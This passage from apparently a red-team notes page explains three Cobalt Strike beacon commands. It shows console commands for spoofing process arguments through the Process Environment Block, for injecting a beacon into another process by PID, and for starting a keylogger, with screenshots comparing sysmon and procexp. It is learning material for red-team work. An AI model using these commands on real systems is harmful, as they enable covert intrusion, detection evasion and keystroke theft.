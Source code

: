 ### Argue

Argue command allows the attacker to spoof commandline arguments of the process being launched.

The below spoofs calc command line parameters:

{% code title="attacker@cs" %}
```csharp
beacon> argue calc /spoofed
beacon> run calc
```
{% endcode %}

![](<../../.gitbook/assets/Screenshot from 2019-01-07 19-18-23.png>)

Note the differences in commandline parameters captured in sysmon vs procexp:

![](<../../.gitbook/assets/Screenshot from 2019-01-07 19-09-47.png>)

Argument spoofing is done via manipulating memory structures in Process Environment Block which I have some notes about:

{% content-ref url="../defense-evasion/masquerading-processes-in-userland-through-_peb.md" %}
[masquerading-processes-in-userland-through-\_peb.md](../defense-evasion/masquerading-processes-in-userland-through-\_peb.md)
{% endcontent-ref %}

{% content-ref url="../../miscellaneous-reversing-forensics/windows-kernel-internals/exploring-process-environment-block.md" %}
[exploring-process-environment-block.md](../../miscellaneous-reversing-forensics/windows-kernel-internals/exploring-process-environment-block.md)
{% endcontent-ref %}

### Inject

Inject is very similar to metasploit's `migrate` function and allows an attacker to duplicate their beacon into another process on the victim system:

{% code title="attacker@cs" %}
```csharp
beacon> help inject
Use: inject [pid] <x86|x64> [listener]

inject 776 x64 httplistener
```
{% endcode %}

Note how after injecting the beacon to PID 776, another session is spawned:

![](<../../.gitbook/assets/Peek 2019-01-07 20-16.gif>)

### Keylogger

{% code title="attacker@cs" %}
```csharp
beacon> keylogger 1736 x64
```
{% endcode %}
